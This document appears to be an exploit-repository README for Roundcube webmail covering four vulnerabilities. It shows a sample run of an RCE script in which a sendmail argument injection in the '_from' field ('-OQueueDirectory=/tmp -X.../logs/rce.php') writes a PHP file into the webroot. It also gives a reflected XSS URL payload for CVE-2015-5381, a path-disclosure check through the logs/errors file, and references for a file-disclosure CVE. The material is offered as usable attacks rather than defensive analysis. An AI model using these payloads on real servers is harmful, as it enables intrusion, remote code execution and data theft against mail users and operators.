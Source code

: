 # Roundcube 1.2.2 - Remote Code Execution

Affected Versions: 1.0.0 - 1.2.2

## Requirements
- Roundcube must be configured to use PHP's mail() function (by default)
- PHP's mail() function is configured to use sendmail (by default)
- PHP is configured to have safe_mode turned off (by default)
- An attacker must know or guess the absolute path of the webroot

## Sample
	starnight:roundcube starnight$ python3 roundcube_rce.py
	*********************************************
		Exploiting Roundcube RCE needs
	* valid user/passwd
	* need to know remote roundcube path
	*********************************************
	please input roundcube mail url : http://mail.roundcube.com/roundcubemail
	base_url : http://mail.roundcube.com/roundcubemail
	url_login : http://mail.roundcube.com/roundcubemail/?_task=login
	url_compose : http://mail.roundcube.com/roundcubemail/?_task=mail&_mbox=INBOX&_action=compose

	step 1 : http://mail.roundcube.com/roundcubemail
	csrf_token : aa3d941dbe6a11620ed34ceca86ff02a

	step 2 : http://mail.roundcube.com/roundcubemail/?_task=login
	please input username : user1
	please input password : 123456
	please input webmail path(eg./var/www/html/roundcubemail) : /var/www/html/roundcubemail
	csrf_token : bdfb5b8d5d827d9d923d203f14b3bea7

	step 3 : http://mail.roundcube.com/roundcubemail/?_task=mail&_mbox=INBOX&_action=compose
	compose_id : 5963802445acdc8afa1484
	http://mail.roundcube.com/roundcubemail?_task=mail&_action=compose&_id=5963802445acdc8afa1484
	csrf_token : bdfb5b8d5d827d9d923d203f14b3bea7

	step 4 : http://mail.roundcube.com/roundcubemail/?_task=mail&_unlock=loading1523435696&_lang=en&_framed=1
	_from : example@example.com -OQueueDirectory=/tmp -X/var/www/html/roundcubemail/logs/rce.php
	200
	step 5 : refer http://mail.roundcube.com/roundcubemail/logs/rce.php

![image](https://github.com/starnightcyber/Exploit-Database-For-Webmail/blob/master/roundcube/pics/roundcube_rce.png)

# Roundcube Webmail File Disclosure Vulnerability

------------
CVE : CVE-2017-16651

Affected Versions: 1.1.0 - 1.1.9, 1.2.0 - 1.2.6, 1.3.0 - 1.3.2

## Requirements
- email account : username / password

## References 
    https://github.com/roundcube/roundcubemail/issues/6026
    https://nvd.nist.gov/vuln/detail/CVE-2017-16651

	See more:(better check with burpsuite and firefox)
	    http://www.cnblogs.com/Hi-blog/p/8760413.html


# Roundcube Webmail Cross-site scripting
CVE : CVE-2015-5381

Affected Versions: 1.1.x < 1.1.2

## Requirements
- email account : username / password

## References
    https://github.com/roundcube/roundcubemail/issues/4837
    http://www.cnblogs.com/Hi-blog/p/8776374.html

## Exploit
(better check with burpsuite and firefox)

    check url http://your-roundcubemail/?_task=mail&_mbox=INBOX"><script>alert("Roundcube+v1.1.1+XSS")<%2Fscript>
    login with valid username and password



# Roundcube Webmail information leakage
------------
CVE : CVE-2015-5383

Affected Versions: 1.1.x < 1.1.2(1.1.3,1.1.5亲测都有效)

Requirements
------------
- None


## References
    http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5383
    https://github.com/roundcube/roundcubemail/issues/4816

## Exploit
    check url http://mail.roundcube.com/roundcubemail/logs/errors
    the root path of roundcube webmail will be disclosed
    
## Sample

	[14-Aug-2017 20:54:51 +0800]: <frgerloc> IMAP Error: Login failed for user1 from 192.168.1.102. AUTHENTICATE PLAIN: Authentication failed. in /var/www/html/roundcubemail/program/lib/Roundcube/rcube_imap.php on line 198 (POST /roundcubemail/?_task=login?_task=login&_action=login)